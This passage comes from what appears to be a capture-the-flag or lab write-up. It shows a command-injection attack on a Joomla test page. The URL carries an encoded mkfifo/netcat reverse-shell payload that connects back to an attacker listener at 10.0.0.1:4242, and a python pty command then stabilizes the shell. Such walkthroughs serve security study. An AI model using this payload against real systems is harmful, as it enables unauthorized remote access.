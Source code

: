 Entering the encoded payload along with URL as shown below:

```
http://10.10.32.200/joomla/_test/index.php?plot=;rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.0.0.1%204242%20%3E%2Ftmp%2Ff
```

The page is loading:

![10-2](img/10-2.png)

However, on our netcat listener; we received callback.

With that, we stabilized the shell using command below:

```
$(which python || which python2 || which python3) -c 'import pty;pty.spawn("/bin/bash")'

export TERM=xterm
```

And here we have stabilized reverse shell access:

![10-3](img/10-3.png)

Next, we start enumerate the system and found `log.txt` in the current directory.
